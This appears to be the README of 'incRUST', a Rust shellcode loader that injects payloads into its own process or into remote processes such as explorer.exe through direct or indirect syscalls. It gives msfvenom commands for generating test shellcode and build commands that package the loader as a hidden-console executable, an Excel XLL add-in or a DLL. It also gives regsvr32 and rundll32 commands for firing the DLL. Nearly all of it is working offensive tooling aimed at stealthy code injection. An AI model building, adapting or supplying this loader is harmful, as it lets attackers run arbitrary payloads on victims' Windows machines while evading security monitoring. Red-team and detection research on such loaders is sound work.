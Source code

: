 # incRUST, a rust loader using direct or indirect syscalls !


(!) indirect syscall in x86 could be not working on some systems because of different syscall stubs (https://gist.github.com/wbenny/b08ef73b35782a1f57069dff2327ee4d)


# Payload Test generation
## x86
```shell
msfvenom -f bin -p windows/exec cmd=calc exitfunc=thread -f base64 -o payload-x86.b64
```

## x86_64
### base 64
```shell
msfvenom -f bin -p windows/x64/exec cmd=calc exitfunc=thread -f base64 -o payload-x64.b64
```
### bin
```shell
msfvenom -f bin -p windows/x64/exec cmd=calc exitfunc=thread -f raw -o payload-x64.bin
```


# Build Options
## Payload
### Specifying the file containing the payload
--config "env.PAYLOAD_FILE_NAME.value='payload-x64.b64'"

### Type of payload
- bin
--features=payload_bin
- base64
--features=payload_bin



## injection target
- current process
```shell
--features=inject_self
```
- remote by process id
```shell
--features=inject_proc_id
```
The environment variable should be set at compile time :
```shell
--config "env.PROCESS_ID.value='10360'"
```
- remote process by name
```shell
--features=inject_proc_name
```
The environment variable should be set at compile time :
```shell
--config "env.PROCESS_NAME.value='explorer.exe'"
```

## injection type
- direct syscall
```shell
--features=syscall_direct
```
- indirect syscall
```shell
--features=syscall_indirect
```

# Build Samples
## x64
- executable
```shell
cargo build --bin incrust --target x86_64-pc-windows-gnu --release --features=no_console,payload_b64,inject_proc_name,syscall_indirect --config "env.PAYLOAD_FILE_NAME.value='payload-x64.b64'" --config "env.PROCESS_NAME.value='explorer.exe'" 
```

- excel library
```shell
cargo build --lib --target x86_64-pc-windows-gnu --release --features=xll,no_console,payload_b64,inject_proc_name,syscall_indirect --config "env.PAYLOAD_FILE_NAME.value='payload-x64.b64'" --config "env.PROCESS_NAME.value='explorer.exe'" 
```
then rename incrustlib.dll into .xll

- regsvr library
```shell
cargo build --lib --target x86_64-pc-windows-gnu --release --features=regsvr,no_console,payload_b64,inject_proc_name,syscall_indirect --config "env.PAYLOAD_FILE_NAME.value='payload-x64.b64'" --config "env.PROCESS_NAME.value='explorer.exe'" 
```

To fire : 
```cmd
regsvr32 /s .\incrustlib.dll
```
or
```cmd
rundll32.exe .\incrustlib.dll,DllRegisterServer
```


## x86
```shell
cargo build  --bin incrust --target i686-pc-windows-gnu --release --features=no_console,payload_b64,inject_self,syscall_indirect --config "env.PAYLOAD_FILE_NAME.value='payload-x86.b64'" 
```

```shell
cargo build --bin incrust --target i686-pc-windows-gnu --features=no_console,payload_b64,inject_proc_name,syscall_indirect --config "env.PAYLOAD_FILE_NAME.value='payload-x86.b64'" --config "env.PROCESS_NAME.value='explorer.exe'"
```

